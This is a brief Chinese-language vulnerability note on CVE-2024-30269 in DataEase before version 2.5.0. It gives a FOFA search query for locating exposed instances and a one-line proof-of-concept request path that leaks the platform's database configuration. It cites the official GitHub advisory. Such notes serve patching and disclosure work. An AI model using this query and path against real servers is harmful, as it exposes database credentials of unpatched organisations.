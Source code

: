 # DataEase存在数据库配置信息暴露漏洞(CVE-2024-30269)

DataEase是一个开源数据可视化和分析工具，在版本2.5.0之前存在数据库配置信息暴露漏洞。通过浏览器访问`/de2api/engine/getEngine;.js`路径可以获取平台的数据库配置。该漏洞已在v2.5.0中修复，除了升级之外，没有已知的解决方法。

## fofa

```javascript
body="Dataease"
```

## poc

```javascript
/de2api/engine/getEngine;.js
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409251726851.png)

## 漏洞来源

- https://github.com/dataease/dataease/security/advisories/GHSA-8gvx-4qvj-6vv5
